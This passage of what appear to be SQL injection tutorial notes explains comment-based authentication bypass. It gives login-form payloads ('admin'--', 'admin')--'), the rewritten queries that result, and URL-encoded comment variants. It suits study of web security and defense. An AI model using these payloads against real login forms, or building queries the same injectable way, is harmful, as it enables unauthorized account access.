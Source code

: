 To ignore the rest of a SQL statement:

```sql
SELECT * FROM logins WHERE username='admin'-- AND password='wrong';
```

This ignores the `AND password='wrong'` part and executes only:

```sql
SELECT * FROM logins WHERE username='admin'
```
### Authentication Bypass Example

Given a login form executing:

```sql
SELECT * FROM logins WHERE username='admin' AND password='p@ssw0rd';
```

Injecting in the username:

```
admin'--
```

Final query:

```sql
SELECT * FROM logins WHERE username='admin'-- ' AND password='anything';
```

Bypasses password check entirely.

> Works because the comment nullifies the rest of the WHERE clause.
### Using Comments with Parentheses

If the original query includes parenthesis:

```sql
SELECT * FROM logins WHERE (username='admin' AND id > 1) AND password='hash';
```

Injecting:

```
admin')--
```

Final query becomes:

```sql
SELECT * FROM logins WHERE (username='admin')-- ' AND id > 1) AND password='hash';
```

Which successfully bypasses the condition on `id` and `password`, and logs in as admin.
### Special Note on URL Encoded Inputs

- URL encoded space: `+`
- Comment payload in URL: `--+`
- URL encoded `#`: `%23`
